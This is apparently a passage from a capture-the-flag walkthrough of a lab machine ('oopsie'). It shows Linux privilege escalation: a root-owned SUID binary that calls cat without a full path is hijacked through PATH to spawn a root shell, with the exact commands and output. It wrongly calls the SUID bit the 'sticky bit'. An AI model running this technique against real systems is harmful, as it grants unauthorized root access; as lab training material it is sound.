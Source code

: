 #### SUID

If you see some entry that allows the user to execute a binary as superuser you can check the file flags and permissions by running:

```bash
ls -lisa /usr/bin/bugtracker
264151 12 -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```
The 's' in the result is the sticky bit in the file permissions.

```bash
file /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

The `setuid` permission is the sticky bit representation in the file command output.

That is a special permission named SUID or Set Owner User ID. SUID allows an alternate user to run an executable with the same permissions as the owner of the file instead of the permissions of the alternate user. That looks promising for privilede escalation.

In our case, the binary 'bugtracker' is owned by root & we can execute it as root since it has SUID set.

If we execute the app, we can see that is asking for input. On invalid input it shows an error showing that it's using `cat` command:

```bash
robert@oopsie:/var/www/html$ bugtracker 12
bugtracker 12

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```
Looks like it's not using the full path of the cat tool. We can create a executable named `cat` and put it before in PATH and it will execute that `cat` (/tmp/cat) instead of the real `cat`:

```bash
echo "/bin/sh" > /tmp/cat
robert@oopsie:/var/www/html$ export PATH=/tmp:$PATH
robert@oopsie:/var/www/html$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/var/www/html$ bugtracker	
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

whoami
root
```
